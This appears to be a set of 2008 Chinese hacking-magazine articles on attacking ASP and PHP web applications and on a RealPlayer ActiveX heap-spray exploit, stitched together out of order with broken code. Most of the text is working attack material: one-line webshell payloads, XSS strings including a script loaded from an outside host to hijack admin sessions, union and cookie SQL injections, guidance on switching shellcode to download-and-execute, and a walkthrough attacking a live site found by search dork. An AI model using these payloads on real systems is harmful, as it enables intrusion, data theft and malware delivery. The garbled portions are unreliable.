联合查询就是厉害，可以一下子省掉不少力气。那么跨站就没有那么厉害了？跨站在这套系统中出现比较多，以 FindAccount.asp 为例：

```asp
if request("name")="" and request("pwd")<>"" then
  userid="用户名不能为空"
elseif request("pwd")="" then
  userid="密码不能为空"
elseif request("name")="" then
  userid="用户名不能为空"
else
  userid="" & request("name") & "登录登录"
end if
```

这是记录登录后台管理的日志，没有对 name 进行任何过滤就直接插入到数据库中，这就造成了跨站。在管理员登录的地方用户名输入 `<iframe src=http://www.baidu.com width=100 height=34></iframe>`，跨站后使其在后台登录日志中会显示百度的页面，如图 4 所示。


```html
<form name="form1" method="POST" action="http://127.0.0.1/admin/admin_config.asp">
<input name="sitename" class="smallinput" id="sitename" value="...">
<input name="copyright" class="smallinput" id="copyright" value="...">
<input name="sitemail" class="smallinput" id="sitemail" value="...">
<input name="siteurl" class="smallinput" id="siteurl" value="...">
```

用系统日志，会把一句话木马插到 site_config.asp 中，得到一个 webshell。用一句话木马客户端连接 `http://127.0.0.1/site_config.asp`，结果如图 5 所示。


## 四、后话

当然，用跨站的方法也可以添加管理员，直接跨 webshell 的话会废掉部分页面，很容易就看出去是被攻击了。个人觉得注入得到管理员密码比较稳妥一些，得到密码后可以选择数据库备份或者恢复功能，也可以使用后台的在线文件更名，将一个 gif 更名为 asp 文件，还可以到系统管理的系统设置里，在“友情链接提交”里插入 `">%><%Execute request("#")%><%q="`（包含双引号），将一句话木马插到 site_config.asp。好了，就到这里了。

编辑点评：……

## RealPlayer rmoc3260.dll 漏洞小坑

JiaJia [YuLv]

从本文可以学到：

- RealPlayer rmoc3260.dll 漏洞分析
- shellcode 构造

前段时间 RealPlayer 接连有漏洞爆出，大量木马作者也开始关注这一入侵手段。某国外网站上爆料出 RealPlayer rmoc3260.dll ActiveX 控件存在内存破坏漏洞，并且允许任意代码执行，下面是一段当时的公告。

受影响版本：

- Real Networks rmoc3260.dll 6.0.10.45
- Real Networks RealPlayer 11

Real Networks RealPlayer 包含的 rmoc3260.dll ActiveX 控件存在内存破坏问题，远程攻击者可以利用该漏洞从应用程序中获得执行任意命令的机会。

```html
<html>
<head>
<title>Real Player rmoc3260.dll ActiveX Control Remote Code Execution Exploit</title>
<script language="JavaScript" defer>
function Check() {
    // win32_exec = EXITFUNC=seh CMD=c:\windows\system32\calc.exe Size=379 Encoder=Alpha2 http://metasploit.com
    // win32_exec 方法，运行木马程序，例如运行 calc.exe
    // 编码方式：Alpha2
    // 这里我们改用 win32_exec 方法改成 win32_downloadexec 方法就可以实现网络下载
    var shellcode1 = unescape("%u...");
    // win32_bind = EXITFUNC=seh LPORT=4444 Size=696 Encoder=Alpha2 http://metasploit.com
    var shellcode2 = unescape("%u...");
    var bigblock = unescape("%u0c0c%u0c0c");
    var headersize = 20;
    var slackspace = headersize + shellcode1.length;
    while (bigblock.length < slackspace) bigblock += bigblock;
    var fillblock = bigblock.substring(0, slackspace);
    while (fillblock.length < 0x40000) fillblock = fillblock + fillblock;
    var memory = new Array();
    for (var i = 0; i < 400; i++) memory[i] = block + shellcode1;
    // 下面近似地就是当时公告中的部分
    var buf = "";
    while (buf.length < 32) buf += unescape("%0C");
    var m = obj.Console;
    obj.Console = buf;
}
</script>
</head>
<body>
</body>
</html>
```

直接拿 milw0rm 上的代码来看看吧，如下（附加简单注释）：

## 【新闻续练篇】—2008.05 黑客安全标准手册

上图利用代码中出现了“CLSID:2F542A2E-EDC9-4BF7-8CB1-87C919F7F93F”，我们看看注册表中的值是不是 rmoc3260.dll 的 CLSID，如图1。

如上看到，确实存在，这就说明的确是个东东的利用代码。

溢出工具包 Metasploit 相信大家都用过了吧？利用代码“shellcode1”变量中的内容就是用 Metasploit 生成的，准确地说应该是在在线生成的（http://metasploit.com:5555）。在上面的利用代码中说过，对 win32_exec 方法改成 win32_downloadexec 方法即可实现一码破解，这里说的是 win32_downloadexec 方法是 URLDownloadToFileA + WinExec 例程生成的 shellcode。至于“shellcode2”变量中的内容我们不需要改了，它是用来溢出 RealPlayer 的。

现在我们要把 win32_exec 方法改成 win32_downloadexec 方法，进入这个链接页面 http://metasploit.com:5555/PAYLOADS 中找到 Windows Executable Download and Execute 条目（也就是 win32_downloadexec 的全名），进入该页面之后回到这里，按要求填入标准化准备好的 EXE 完整下载链接（URL），选择编码方式为 Alpha2，最后点击“Generate Payload”这个按钮即可得到 win32_downloadexec shellcode，如图3。

可见这里得到的 shellcode 数据格式是以“\x00”这种形式的，而我们需要的是“%u0000”这种 Escape 编码格式，那么就假设一下把 shellcode 进行了 Escape 编码的方法吧。

```vb
Function EscapeShellCode$(Code As String) As String
Dim sChar As String
Dim sAsc() As String
Dim iLng As Long
Dim xLng As Long
Dim sTmp As String
Dim sTmp() As String
Dim iLng% As Long
' 字符
' ASCII数组
' 指针
' 分组控制变量
' 临时存放字符串
' 临时字符串数组
' 计数
```

用得到正确的 shellcode 数据格式是以“\x00”这种形式的，而我们需要的是“%u0000”这种 Escape 编码格式，那么就假设一下把 shellcode 进行了 Escape 编码的方法吧。

根据上面这个代码大家也可以用来扩展一下，加上获取网页源代码功能就可以很容易写出 URL 生成器了，在以前的《黑客手册》上都有相关的文章，我就不多说了，下面是转换效果，如图4。

编码完成后，复制文本框内字符（偏移略有不同）到程序中执行即可。对于这些内容，实际上还可以保存为 .html 文件或者在网页中运行都可以。这里我们将其保存为 a.html 并运行，效果如图5。

最后，大家还有什么疑问或更好的方法，都可以到《黑客手册》的官方论坛上讨论。（文章中使用到的 ShellCodeEsc.exe 和 a.html 代码已经放在光盘中）

编辑点评：系统默认就是万能防御的思维，构造相应的语句，再调用 Shellcode 相应的动作，还是其中的精神内容。多数关注点在于：漏洞的构成、shellcode 的构造等，实践上还是有许多地方值得借鉴。

## 脚本DJ站——多此一举的防注入文件

- 小帅 @ [O.S.T] &[VtoW]

从本文可以学到：
- 利用防注系统写入 shell
- 意识到过度防范的危害

### 一、The beginning of the story:

最近我朋友老是问我拿某某 DJ 站的歌曲下载地址，那 DJ 站对歌曲的下载又是很严格的。虽然我用嗅探拿到了一个歌曲的地址，但是我朋友要的是全部的，也就是要批量下载。由此我想到了一个新的话题：它还能帮我们实现批量下载吗？然后我想了想，绝对不能使用暴力，它也就不是我们要的东西了。那么，一般情况下还有什么？于是便想到一个能防止下载操作的服务端代码，它可以防御、防止批量下载。

### 二、Reading codes:

读代码是一件很痛苦的事情，我数学不太怎么好，但是能看下人家的构思。拿到一份代码，我习惯性先看变量名、提交的东西、一些最底层的判断、验证码有几种。看到一个读代码，发现过滤的东西特别的少（不排除我没看太清），截图里第2个操作中，估计通过插入是无效的。先测试一下吧，不测试就不知道，测试几下，发现系统对判断防注入提示，如图1。

就个人而言，一般的防注入系统提示后标题里很少有加个参数的。我估计是它的设置，做了防注入的处理，并且提示：

> 非法操作！系统收到了如下记录！

操作IP：127.0.0.1  
操作时间：2008-3-24 22:49:26  
操作页面：/Newsview.asp  
提交方式：GET  
提交参数：id  
提交数据：1 and 1=1

从这个提示上看，它对页面及提交的内容都会写下来，我就想……估计又是个对内容的……

什么防注入系统，啥数据库啥的呢，跑去 config.asp 里看了看，如图2。

自己仔细一看，哇，asa 结尾的小家伙，真是多此一举。大家也许已经知道我想干嘛了吧，一个不巧，把含量不小的关键字，算是给我找到了……

非常不错，我们看，提交的 1 and 1=1 被写进去了，我们用一句话来试试？嘿嘿~ 就是这样拿到 shell 的，但是这种似乎是对防注入语句很认真的防范。

接下来说说，就是用 lake2 大哥的一句话的 S 端连接上了。完整的路径是：http://localhost/Data/#Sql.asa，当然我们要把 # 转成 urlcode 的，最后就变成了 http://localhost/Data/%23Sql.asa 了，前面的注意去掉。如图6、图7。

咱们还算成功地走进去了，好了，也就是以这个牛X的 DJ 站和我说再见了。一个 DJ 站倒下了，接着就靠各位了。

### 三、What we were learn:

说实在的，这个系统可能是太怕黑客的注入了，我不是作为注射师，我就一个很笨的菜鸟，啥也不会，有时候我觉得东西仔细点，心静下来就行。

本大菜鸟也没什么，很多时候去论坛灌水，这里喜欢看看代码什么的，我的 ID 是：小帅，欢迎各位大牛们来交流。

编辑点评：小编真心觉得这篇文章，很无奈地揭露了一个问题。苦笑了：这里乱成这样，还是好了吗？让论坛成员去找这段处理代码和条件都没问题，其实网站进程这边可以当作为安全做个佐证的浏览，建议程序员们都来看看，有用的科目。

## 新云下载系统注射、跨站漏洞

从本文可以学到：
- 新云下载系统注射漏洞分析
- 新云下载系统跨站漏洞分析和利用

前段时间网上有人公开了新云内容管理系统的注射漏洞，非常巧合的是我最近也在看新云下载系统 Version 6.0.1 的代码，也发现了注射和跨站漏洞。

### 一、注射漏洞

新云下载系统也存在和新云内容管理系统类似的注射漏洞，看来源还是在同一个地方倒下了两次。存在漏洞的页面是 online.asp，来看代码：

```text
（代码片段，含 Request.ServerVariables、adodb.recordset、SQL 查询等内容）
```

漏洞很明显，由于没有回显，Access 版本的要利用貌似不是很容易。但是 MSSQL 版本就很容易利用了，只要构造一个数据包，将 X-FORWARDED-FOR 伪造为你的恶意代码就可以了，类似这样 127.0.0.1' evil sql code），可以利用注射时执行命令写密码，也可以直接执行一个管理员，具体的就看你自己操作了。这里为之写了一个 POC，在光盘里附上。

### 二、跨站漏洞

新云下载系统前台注册用户可以发表软件，在管理员登录后台审核后可以公开下载。非常不幸的是前台用户提交软件的页面过滤不严格，用户可以把提交软件的一些信息写为 JS 跨站代码，管理员在后台审核时这些恶意代码就会执行。我们一起来看 publish.asp 中的保存软件的代码：

```text
（代码片段，含 Private Sub saveAdd、Request.Form、Newasp.HtmlEncode 等内容）
```

```text
（代码片段，含 Request.Form、Newasp.HtmlEncode、site_3、site_2、site_5 等内容）
```

从代码中可以看到有很多值都是用 Request.Form 取得后没有过滤就直接入库了，我们选取其中一个 Homepage 测试下看看。

首先注册个用户登录，然后发布一个软件，在作者主页中填写上跨站代码，比如经典的弹框语句："><script>alert('test2')</script>。到后台审核软件时就会触发，如图1。

仅仅是几个框没什么意思吧，我们完全可以引入一个 js 文件来执行，这时的功能不仅仅是弹窗，比如设置个弹出层项目了，如此高明的执行方式，更加厉害。

```text
"><script src=http://mysite.com/evil.js></script><"
```

跨站代码这样写 `"><script src=http://mysite.com/evil.js></script><"`，我的 js 和 add.html 存到自己的站 mysite.com 上，evil.js 的内容是：

```text
var p1 = "http://mysite.com/add.html";
var p2 = window.location.protocol + "//" + window.location.hostname + "/admin/admin_index.asp";
window.location = newpath;
window.location = reload(p1);
window.location = reload(p2);
```

Aaa.html 的内容是：

## 再曝 phpcms 的多个漏洞

图1 站点的焦点 [S.T.]

从本文可以学到：

phpcms 漏洞分析和利用

相信大家看了上期的黑手已经知道了 phpcms2007 sp6 以及 sp5 的 /formguide/include/tag.func.php 文件存在变量过滤不严的漏洞，当时感觉此类的漏洞都能被利用，是不是还有些漏洞没有被我们发掘出来呢？于是，抱着试一试的态度，最终还是曝出了两个比较严重的漏洞，下面看正文。

### 漏洞一：直接拿 shell

测试环境：Apache/2.2.4 (Win32) PHP/5.2.3 phpcms2007 sp6

发现者：冰的原则

漏洞影响：高危（所有这种环境均可能会受到影响）

影响版本：phpcms2007 <= sp6

漏洞描述：可以通过 Apache 的特性，直接上传任意 file，然后执行 shell。

漏洞利用：先注册一个会员，然后去会员中心，随便找个版块，上传一个伪装过的附件，如 phpspy.php.rar，接着进入后台，打开文件管理，即可把上传的附件进行访问。

相关文档链接：http://www.4ngel.net/article/63.htm

以上是第一个漏洞的相关信息，接下来开始实战吧。首先，我们注册一个会员，这里我们选择一个会员 ID 是 test，会员点击页面上的会员中心，如图1。

只要看上方管理，然后点击“发表文章”，我们来到这里，如图2。在那一排类似 webeditor 的编辑器上点击上传附件，如图3。然后选择一个自己的 PHP 马，不过要改成 *.php.rar 这样的形式，传上去后得到地址，如图4。这里得到的地址是：/cms/phpcms/uploadfile/article/uploadfile/200803/config.php.rar，然后直接在浏览器里输入 http://localhost/cms/phpcms/uploadfile/article/uploadfile/200803/config.php.rar，如果你机器上装有漏洞的话，打开这个页面的时候会弹出对话框让你下载，不用管它了，这样我们就可以看到 PHP 马的截图了，如图5。

这里因为服务器禁止运行 PHP 脚本（小编注：这个应该不是禁止 .php，而是禁止 .php.swf，所以上文错了，我想说的是，大家知道原理了，就可以灵活地对付各种情况了。好了，下面一个漏洞就说到这里。不过说是漏洞呀，如果好多论坛这样环境去搭配的话，并且处理不好附件的上传就可能导致致命的漏洞。这应该说，是很危险的。不过，DZ！在这方面处理得不错。

### 漏洞二：跨站漏洞

漏洞代码发生在 phpcms/ask/reply.php 中：

```php
if($dosubmit){
    if(strlen($reply) > 10000 || empty($reply)) showmessage($LANG['reply_content_not_null_less_than_10000']);
    $askid = intval($askid);
    $reply = str_replace($reply,
```

使用 strip_sql() 函数来过滤 $_POST、$_GET、$_COOKIE，达到程序 gpc 的开关是否关闭，如果是关闭的，则继续使用 new_addslashes 来处理提交过来的内容，呵呵。再来看 str_safe 这个函数，我们不妨找找说明，不过真的就不能跨站了吗？这里我并没有去关心函数是怎么写的，因为我脑子太笨。

所以我就直接暴力猜测了。为什么觉得有问题？因为手动传的站点不同，虽然简单的跨站不能执行，但高级点的跨站还是能够触发 JS 代码的。我来到会员中心的“我要提问”这个版块，如果你自己问了问题，那么自己回复的时候，当我们输入 `` 就可以弹出框框，如图8。

```php
$subject = @db->sql->cnnt_select * from `TABLE_ASK` where askid=$askid;
if(!$subject){
    if($subject['showmessage']{$LANG['sorry_not_exist_record']
    if(!$subject['username'] != $username}) showmessage($LANG['illegal_operation']);
}
$db->query("insert into `TABLE_ASK_REPLY` (askid, reply, username, ipaddr, values('$askid', '$reply', '{$username}', '$PHP_IP', '$PHP_TIME')");
if($db->affected_rows() > 0){
    $db->query("UPDATE `TABLE_ASK` SET lastreply='$PHP_TIME' WHERE askid=$askid");
    showmessage($LANG['reply_post_success'], 'forward');
} else {
    showmessage($LANG['reply_post_fail', 'fail_contract_to_administrator']);
}
```

这是一段关键的一句：`$reply = str_safe($reply);` 也就是说这个函数如何对 reply 变量进行过滤。并且在这个文件中包含了 include/common.inc.php，在其中发现如下代码：

```php
$_POST = strip_sql($_POST);
$_GET = strip_sql($_GET);
$_COOKIE = strip_sql($_COOKIE);
unset($search_arr, $replace_arr);
$magic_quotes_gpc = get_magic_quotes_gpc();
if($magic_quotes_gpc){
```

其实不止上面的代码可以执行，下面代码也可以的哦：`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`。

总的来说，phpcms 在这方面的处理实在太烂了，如果大家想实践，那可以通过多次测试就可以将数据填入到系统。其实这里并不只是 phpcms 的问题，很多时候代码是否存在逻辑上的问题，都是有其安全隐患的。

编辑点评：Apache 的这个漏洞还有一个特性，当特殊的路径构造，例如通过构造目录名中包含有 asp.dll 解析的后缀名时，如 1.asp、1.asa 等，其目录下的任意文件都会被当成 ASP 文件来解析。由此可以构造伪静态目录下创建一个名为 “my.asp” 的目录，再放一个 1.gif 文件，内容为任意的 ASP 代码，访问 `http://127.0.0.1/my.asp/1.gif` 会发现我们的代码已经被执行了！

## 繁星商贸通 v8.0

图 Mystery

从本文可以学到：
- 商贸通漏洞（跨站、注册、拿 webshell）分析
- 商贸通漏洞利用实践

商贸通是一套基于 asp+access 的商业程序，功能十分强大，界面仿阿里巴巴设计，受到很多站长喜爱，前些天下载回来试了下，发现程序的多个安全漏洞，下面一起来看看它的漏洞吧，Let's Go!

一个设计缺陷：当我们创建的目录名中包含有 asp.dll 解析的后缀名时，如 1.asp、1.asa 等，其目录下的任意文件都会被当做 ASP 文件来解析。比如我们在网站根目录下创建一个目录 “my.asp”，目录下存放一个 1.gif 文件，内容为任意 ASP 代码，访问 `http://127.0.0.1/my.asp/1.gif` 会发现我们的代码已经执行了！哈哈，简单吧！明白了原理，我们接着来看代码。

### 漏洞之一：注册 & 上传

## 黑客手册 2008.05-【新洞练练】

```asp
user=request("user")
pass=request("pass")
colx=request("colx")
colxsrx=request("colxsrx")
conname=request("conname")
coaddress=request("coaddress")
coid=request("coid")
colmail=request("mail")
vip=request("vip")
tyvip=request("tyvip")

set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from SMT_vp"
rs.open sql,conn,1,3
rs.addnew
rs("SMT_user")=user
rs("SMT_pass")=md5(pass)
rs("SMT_colx")=colx
rs("SMT_colxsrx")=colxsrx
rs("SMT_conname")=conname
rs("SMT_coaddress")=coaddress
rs("SMT_cotel")=coid
rs("SMT_cotel2")=colmail
rs("SMT_ypxxone_id")=ypxxone_id
rs("SMT_ypxxtwo_id")=ypxxtwo_id
rs("SMT_addone_id")=addone_id
rs("SMT_addtwo_id")=addtwo_id
rs("SMT_mail")=mail
rs("SMT_vip")=vip
rs("SMT_kdate")=kdate
rs("SMT_co")=coid
rs("SMT_key")=citykey
rs("SMT_eno")=eno
rs.update
rs.close
set rs=nothing
```

这是 reg_save.asp 中的一段代码，代码中对获取的参数没有任何过滤就写入数据库！这里存在跨站攻击！不过这和我们前面说的漏洞没有什么关系，别着急，接着来看 my_picture_Upload.asp 的一段代码：

```asp
filedata = request("filedata")
filesize = lenb(filedata)
if filesize > 0 then
filename = GetFileName(fileName)
if IsValidFile(FileTypeName(fileName)) = false Then
Response.Write "<script>alert('文件类型非法，不允许上传该类型文件');history.go(-1);</script>"
Response.End
Exit Sub
End If

FileTypeName = replace(replace(replace(now1,"/",""),":","")," ","")
filebase = "/UserDocument/"&session("useradmin")&"/Picture/"

'文件存储路径
vsize=yyyysize+filesize
if userflag7(round(yysize/1024,2)) then
Response.Write "<script>alert('对不起，您的剩余空间已不足上传此文件，请修改!');history.go(-1);</script>"
Response.End
else
set fso =server.CreateObject("Scripting.FileSystemObject")
if fso.folderExists(server.mappath("/UserDocument"))=false Then
    ...
end if
if fso.folderExists(server.mappath("/UserDocument/"&session("useradmin")&"/Picture"))=false Then
```

```asp
Fso.CreateFolder(server.mappath("/UserDocument/"&session("useradmin")&""))
if not fso.folderExists(server.mappath("/UserDocument/"&session("useradmin")&"/Picture")) then
    ...
end if
set fso=nothing

dim Fstream
set Fstream = Server.CreateObject("adodb.stream")
fstream.mode = 3
fstream.type = 1
fstream.open
fstream.position = 0
fstream.Write filedata
fstream.savetofile Server.Mappath(basepath&filename),2
fstream.close
set fstream = nothing
```

保存文件。

代码我已经注释得很清楚了，不过代码中的 session("useradmin") 是怎么来的呢？接着来看 Chkadmin.asp 的一段代码：

```asp
nick=replace(trim(request("user")),"'","")
password=md5(replace(trim(request("pass")),"'",""))
regim=replace(trim(request("regim")),"'","")
regjm=replace(trim(request("regjm")),"'","")

set rs=server.createobject("adodb.recordset")
sql="select * from SMT_vp where SMT_pass='"&password&"' and SMT_user='"&nick&"'"
rs.open sql,conn,1,1
if not rs.bof and rs.eof then
    if rs("SMT_key")=0 then
        response.write "<script>alert('用户登录出错，下面是产生错误的可能原因，您可能已经被管理员删除，如有问题请及时和我们联系');window.open('/index.asp','_self');</script>"
    end if
else
    conn.execute("update SMT_vp set SMT_loginth=SMT_loginth+1 where SMT_id='"&rs("SMT_id")&"'")
    conn.execute("update SMT_vp set SMT_lastdate='"&time&"', SMT_citytime='"&time&"' where SMT_id='"&rs("SMT_id")&"' and SMT_user='"&nick&"'")
    session("useradmin")=rs("SMT_user")
    if request("action")="index" then
        response.write("<script>window.open('application\cityurl"&user_admin.asp"','_parent');</script>")
        response.redirect "/index.asp"
    end if
end if
```

而登录的时候，用户名只通过了单引号过滤！这下知道我要做什么了吗？没错，就是注册！我们注册的时候，只要注册用户为 mystery.asp，登录后上传图片，程序会为我们创建一个名为 mystery.asp 的目录，并把图片传到该目录下的 Picture 目录下！

现在就来测试下吧！注册的时候程序在本地用 JavaScript 检测用户名，我们只要把检测代码去掉就行了！选择“注册”→“企业会员注册”→“首审注册开…”，接着看源文件，修改表单中的 `<form name='addform' method='post' action='reg_save.asp' onSubmit='return checkdata()'>`，action 修改为网站地址，删除 `onSubmit="return checkdata()"`，修改后为：`<form name="addform" method="post" action="http://127.0.0.1/reg_save.asp">`，保存为 HTML 文件，打开注册就行了。注意这里的注册类型选择“先试用”，因为默认“先试用”用户注册后是可以直接登录的，其他类型的一般需要审核才可以登录。如图 1。登录后，依次进入→我的分文包→我的图片；上传即可，如图 2。


## 漏洞之二：SQL Injection

先来看看 help.asp 的一段代码：

```asp
<%
if request("id")<>"" then
    sql = "select * from SMT_help where SMT_id='" & request("id") & "' order by SMT_id desc"
    set rs = createobject("ADODB.Recordset")
    rs.open sql, conn,1,1
    if not rs.eof then
        ...
    end if
    rs.close()
end if
%>
```

代码先判断获取的 id 是否为空，不为空就放入 SQL 查询！学习 ASP 的朋友可能要说这里存在注入，其实不然，程序包含了防注入脚本！一起来看看防注入脚本是怎么写的吧：

```asp
<%
Dim Fy_Post,Fy_Get,Fy_In,Fy_Int,Fy_Fy,Fy_Xh,Fy_Dbstr
' 定义各种变量的字符串，用于“防”分词
Fy_In = application("citysql")
Fy_Int = split(Fy_In, "|")
If Request.Form<>"" Then
    For Each Fy_Post In Request.Form
        For Fy_Xh=0 To Ubound(Fy_Int)
            If Instr(LCase(Request.Form(Fy_Post)), Fy_Int(Fy_Xh))<>0 Then
                response.write("<script>alert('操作错误，提交的信息可能含有敏感关键字！');history.go(-1)</script>")
                response.end
            End If
        Next
    Next
End If

' GET 部分
If Request.QueryString<>"" Then
    For Each Fy_Get In Request.QueryString
        For Fy_Xh=0 To Ubound(Fy_Int)
            If Instr(LCase(Request.QueryString(Fy_Get)), Fy_Int(Fy_Xh))<>0 Then
                response.write("<script>alert('操作错误，提交的信息可能含有敏感关键字！');history.go(-1)</script>")
                response.end
            End If
        Next
    Next
End If
%>
```

这里过滤的字符来自于 `Fy_In = application("citysql")`，`application("citysql")` 是从哪儿来的呢？在 const.asp 看到一段代码：

```asp
set rs = server.createobject("adodb.recordset")
sql="select * from SMT_config"
rs.open sql,conn,1,1
if not rs.eof then
    application("citysql")=replace(replace(rs("SMT_citysql"), ...))
end if
```


application("citysql") 来自于数据库 SMT_config 表的 SMT_citysql 字段，默认过滤字符如图 3。从图 3 可以知道，防注脚本默认过滤字母如下：update、and、mid、单引号等字符。先不说这个防注脚本存在 cookie 注入，它的默认过滤我们是可以绕过的！比如 and 可以用 or 或者 xor 代替，mid 函数可以用 left 函数代替！不过我们不需要去猜解，因为这个文件可以 union 注入，改了下 SMT_help 表一共 5 个字段，构造语句：`help.asp?id=22 xor 1=2 union select 1,2,3,4,5 from SMT_admin`，提交后如图 4 所示。


如图 5。


用户名→上传图片就 OK 了，由于我本地不是 IIS6.0，所以我到网……

## 三、实战演示

先用关键字“Powered By SMSJS Version 8.0”到百度搜下，如图 9。我随便找了个站点 http://www.xxxxx.com 来测试，提交：`javascript:alert(document.cookie='id='+escape("22xor 1=2 union select 1,2,SMT_pass,SMT_id,5 from SMT_yp where SMT_key not in (0,2) and SMT_vip not in (1,3,4,5)"));` 然后访问 http://www.xxxxx.com/help.asp，如图 10。


破掉 MD5 密码得到 123456Aa，如图 11。再次提交：`javascript:alert(document.cookie='id='+escape("22xor 1=2 union select 1,2,SMT_pass,SMT_user,5 from SMT_yp where SMT_key not in (0,2) and SMT_vip not in (1,3,4,5)"));` 然后访问 http://www.xxxxx.com/login.asp，接着乘机利用前面的 update 注入来修改用户名，提交：`javascript:alert(document.cookie='co='+escape("co7",SMT_user='jntia544.asp"));` 然后访问 http://www.xxxxx.com/user/templet.asp?action=save，修改用户名为 jntia544.asp（注：有的站使用 UserDocument 且没有保存路径配置页签，这时修改标题，做成 `../my.asp` 或 `../co/my.asp` 在根目录中实现）。


用户名为 jntia544.asp，密码 123456Aa 登录，登录后上传图片（图片内容为一句木马 `<%eval request("my")%>`）就得到我们的 webshell 了，用户客户端连接上传大功告成。记住，拿到 webshell 后把用户名改回来，学到技术才是用来抓蚊子的！


下面再演示如何从后台获取 webshell，还要用这站来测试，访问 http://www.xxxxx.com/help.asp?id=22 xor 1=2 union select 1,2,SMT_password,SMT_nick,5 from SMT_admin，如图 14。破掉后得到密码为：6850850，访问后台 admin/index.asp。


## 一、前台漏洞

### （一）数字型的注入漏洞

漏洞文件 `CompHonorBig.asp`（类似的还有 `CompVisualizeBig.asp` 文件），这个文件是显示图片的一个页面。

`Step1：漏洞代码分析`

主要的代码如下：

```asp
<!--#include file="inc/conn.asp"-->
<%dim id
id=request.QueryString("id")%>
<%num%
```

## 四、溢议/重生

由于源码不是在官方站下载的，并不知道官方站名是什么，根据后台的版权信息，得到官方地址为 `http://www.yater.net`。发现官方无法访问，也就不能知道官方是否发布补丁了。既然这样，伪黑客就先冒做“官方”来修补下漏洞啊。

- 1. 跨站漏洞修补：  
  该教程程序在多处存在漏洞，如注册用户那里就可以跨站，只要简单用 `Server.HTMLEncode` 过滤下就行了，如注册的代码：

```asp
colx=request("colx")
colxsex=request("colxsex")
coname=request("coname")
coaddress=request("coaddress")
coleg=request("coleg")
coemail=request("coemail")
mail=request("mail")
colxrx=Server.HTMLEncode(request("colxrx"))
colxsex=Server.HTMLEncode(request("colxsex"))
```

- 2. 注册漏洞修补：  

只要在后台系统设置→系统信息→禁止注册的用户名中添加 `.asp|.asa|.cer等asp.dll解析的后缀名` 为禁止注册的用户名即可。

- 3. 注入漏洞修补：  

只要在防注脚本 `SF_Sql.asp` 中添加防 `cookie` 注入的代码：

```asp
If Request.cookies<>"" Then
For Each X in Request.cookies
If Instr(LCase(Request.cookies(X)),"'")>0 Then
response.write("<script>alert('操作错误，请正确上填写...')</script>")
...
End If
Next
Next
End If
```

添加完代码后，到后台的系统设置→系统信息→SQL 防注入屏蔽中加入 `xor|or|union|select` 即可，如图 18。

## 五、结尾

文章就写到这里了，有什么问题欢迎到 NoHack 论坛找我交流，我的 ID 是 `mystery`。

声明：本文仅供技术交流之用，切勿利用本文的技术及漏洞从事非法活动，否则一切后果自负！

编辑点评：

尽管 IIS 6 的这个漏洞已被发现了很久，虽然以前站点上的文章专门介绍过这个 IIS6 漏洞的利用方法，手动操作的浏览器式过程的例子也很多，但真正的解决并没有多完善，本文将首尾过程做了较多的点缀，也只是应付文章浏览者。文章本身的漏洞修复没有太多新意，但是对于漏洞修复和利用的结合点，较有学习意义。


### Step 2：利用方法

- （1）在 URL 输入 `http://127.0.0.1/1.2/CompHonorBig.asp?id=1`，出现一个图片的页面。

- （2）分别构造关键字“and 1=1”和“and 1=2”，返回不同的页面，如图2、图3。

- （3）是数字型的注入，直接交给注入工具就行了，如图4。

## （二）字符型注入的漏洞

注：用户修改资料页面文件 `UserEdit.asp`

### Step 1：代码分析

文件部分代码：

```asp
<!--#include file="inc/conn.asp"-->
<!--#include file="inc/skin_css.asp"-->
<!--#include file="inc/config.asp"-->
<!--#include file="inc/function.asp"-->
<%
dim Action, UserName, Founder, ErrMsg
dim rsUser, sqlUser
Action = trim(request("Action"))
UserName = trim(request("UserName"))
if UserName = "" then
    UserName = session("UserName")
end if
'......略过一部分
Set rsUser = Server.CreateObject("Adodb.RecordSet")
sqlUser = "select * from [user] where UserName='" & UserName & "'"
rsUser.Open sqlUser, conn, 1, 3
if rsUser.bof and rsUser.eof then
    Founder = True
    ErrMsg = ErrMsg & "<br><I>找不到指定的用户！</I>"
    call writeErrMsg()
end if
```

从上面的代码来看，程序也只对用户名过滤了两边的空格，同样带入了数据库查询语句，这是个字符型的注入漏洞。不过还有个 session 验证的漏洞，可以直接修改其它注册用户的资料（`NewsType.asp` 文件中同样存在该类的注入漏洞，不过正文未给出）。

### Step 2：利用方法

- （1）我选择了一个用户名为 `jkh1188` 的用户，然后在 URL 输入 `http://127.0.0.1/1.2/UserEdit.asp?username=jkh1188`，显示修改资料的页面，如图5。

- （2）分别构造 `jkh1188` 后加 `" and 1="1"` 和 `" and 1="2"`，页面返回不同，如图6、图7。

- （3）由于字符型的注入，是可以直接交给注入工具注入漏洞。

## （三）搜索型注入的漏洞

漏洞存在 `News_search.asp` 文件，关键的代码如下：

```asp
<!--#include file="inc/conn.asp"-->
<!--#include file="inc/skin_css.asp"-->
<!--#include file="inc/config.asp"-->
<%
key=Trim(request("key"))
```

## 【新洞练练看】—2008.05 非安全·黑客手册

正文内容为关于 Cookie 注入、跨站脚本与一句话木马等安全测试示例的说明，页面中穿插多张示意图与代码截图。


8、图9和图10、图11。从一次返回不同的页面来看，明显存在着注入的漏洞，我们只要把上面语句中的 `and 1=1` 换成常见的注入语句就行了，不过也可针对不同的搜索方式，构造好参数再交付给工具（如 NBSI 工具），显而易见——搜索型的选项。至于如何构造参数，就由你自己做了，程序也许会被改变，而变得比较复杂吧。

嗯呵，前台二种类型的注入都来了，我们再看下面的 cookie 注入漏洞。

## （四）突破防注入文件的限制：cookie 的注入

### （1）防注入代码分析

```asp
Dim Query_Badword, Form_Badword, i, Err_Message, Err_Web, name

'……定义部分……

Err_Message = …
Err_Web = …
Query_Badword = …
Form_Badword = …

'在这部分定义 get 非法参数，使用“|”号相隔……
```

防注入程序只对 `request.QueryString` 和 `request.Form` 集合中的数据进行了过滤，在没有指定场景的情况下，这样就产生了 cookie 的注入漏洞。

### （2）cookie 的注入比较简单

具体的注入方法在网页上提交的 cookie 注入步骤操作（此处略过了）。

## （五）在前台插入一句话的利用

这类系统的默认数据库名为“#wrtxcn2007.asp”，里面没有防插入的代码。虽然程序对提交变量做了相应的过滤，但我们可以在前台提交插入一个一句话，从而达到内嵌 webshell 的效果。


## （六）跨站的利用

前面说过，在“客户留言”中，客户提交的参数一点也没过滤，我们同样还可在此进行跨站的攻击。在“客户留言”的“主题”处等加上跨站的常用代码“`<script>alert('测试漏洞')</script>`”（经测试，只在“主题”和“内容”处写入才有效果），可实现跨站脚本效果。

## 二、后台的利用

- 1：在系统管理中的网站配置中插入一句话马

